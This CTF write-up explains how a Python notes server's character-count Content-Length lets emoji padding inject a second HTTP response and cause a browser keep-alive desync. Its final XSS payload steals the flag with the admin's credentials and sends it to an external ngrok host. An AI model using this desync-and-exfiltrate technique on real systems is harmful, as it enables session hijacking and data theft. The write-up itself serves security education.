


# Sticky Notes

My Sticky Notes app uses a simple file server I wrote in Python! Surely there aren't any bugs...

App: http://35.224.135.84:3100

Attachments: `sticky_notes.zip`

## TLDR

HTTP desync similar to
[Carmen Sandiego](https://gist.github.com/bluepichu/6898d0f15f9b58ba5a0571213c3896a2)
from PlaidCTF 2021, but instead of a filesystem TOCTOU it exploits
`len(s) != len(s.encode())` when multi-byte chars are used.

## Overview

Three servers:
- `web/boards.py` (port `3100`): Provides a simple web interface.
- `web/notes.py` (port `3101`): Home-rolled static file server. Flag is also here.
- `bot/app.js` (port `3102`, internal): Admin bot with access to the flag.

Notes are stored in `/tmp/boards` and `web/boards.py` simply provides an API
for fetching and creating notes (also provides a "Report" function that
triggers the admin bot). Weirdly enough, notes are displayed using `iframes` to
the `web/notes.py` server:

```html
<iframe src="http://localhost:3101/{board_id}/note0"></iframe>
```

Unfortunately we can't get XSS easily because of the `Content-Type`:
```python
header_template = """HTTP/1.1 {status_code} OK\r
Date: {date}\r
Content-Length: {content_length}\r
Connection: keep-alive\r
Content-Type: text/plain; charset="utf-8"\r
\r
"""
```

Goal: Inject our own HTTP headers and payload to achieve XSS.

## HTTP response injection

The vulnerability is here:
```python
def http_header(s: str, status_code: int):
    return header_template.format(
        status_code=status_code,
        date=formatdate(timeval=None, localtime=False, usegmt=True),
        content_length=len(s),
    ).encode()
```

Because:
```python
assert len("😍") == 1
assert len("😍".encode()) == 4
```

If we use multi-byte chars, the `Content-Length` will be shorter than the
actual content. We can abuse this like so:
```python
payload = "😍😍😍😍evil payload"
i = len(payload)
assert payload.encode()[:i] == "😍😍😍😍".encode()
assert payload.encode()[i:] == b"evil payload"
```

Now if we request this note, the 1st HTTP response should be `😍😍😍😍` and the
2nd should be `evil payload`. However, turns out it's not that simple.

## HTTP desync

Chrome has 6 max connections per domain, so the 7th one reuses the 1st
connection when it's `HTTP/1.1` with `Connection: keep-alive`. In this case,
the server logs would show:
```
[*] GET /0 HTTP/1.1 127.0.0.1:41844, 1st request
[*] GET /1 HTTP/1.1 127.0.0.1:41846, 1st request
[*] GET /2 HTTP/1.1 127.0.0.1:41848, 1st request
[*] GET /3 HTTP/1.1 127.0.0.1:41850, 1st request
[*] GET /4 HTTP/1.1 127.0.0.1:41852, 1st request
[*] GET /5 HTTP/1.1 127.0.0.1:41854, 1st request
[*] GET /6 HTTP/1.1 127.0.0.1:41844, 2nd request
```

If we're able to send two HTTP responses on `GET /0`, then `GET /6` would
receive the 2nd HTTP response containing our XSS payload.

However, due to the way browsers are implemented, the 2nd HTTP response must
appear in a different TCP packet than the 1st. Luckily in `notes.py` we have:
```python
for chunk in iter_chunks(content):
    self.wfile.write(chunk)
    time.sleep(0.1)
```

The server sends data in 1448 byte chunks and sleeps for 0.1 sec between
each chunk. That means as long as the 2nd HTTP response occurs after 1448
bytes, then it will appear in its own packet.

## Payload

We want our XSS payload to occur right at the start of a TCP packet. In order
to do so, we need to precede it with a bunch of Unicode chars to mess up the
`Content-Length`. Here's the calculation:

```
"😍" is 4 bytes

We want:
len(pre) + len(payload) == len(pre.encode())

So:
len(pre) + len(payload) == 4 * len(pre)
len(pre) = len(payload) // 3

We also want len(pre) + len(payload) to be a multiple of 1448.

An easy solution is:
len(payload) = 1448 * 3
len(pre) = 1448
```

So basically our payload looks like
```python
pre = "😍" * 1448
payload = "whatever we want"
assert len(payload) == 1448 * 3
```

With this, our payload will appear in the 7th iframe, giving us XSS.
```
😍😍😍😍😍...😍😍😍😍😍HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 410

<marquee id="title">Fetching flag...</marquee>
<script>
(async () => {
   // Discard this first request because it will receive the padding at the
   // end of the payload.
   fetch('/flag', {credentials: 'same-origin'})

   const res = await fetch('/flag', {credentials: 'same-origin'})
   const flag = await res.text()
   fetch('http://daccb1edf8e2.ngrok.io/' + encodeURIComponent(flag))
   document.getElementById('title').textContent = 'Pwned'
})()
</script>
ZZZZZ...ZZZZZ
```

Script in `solve.py`:




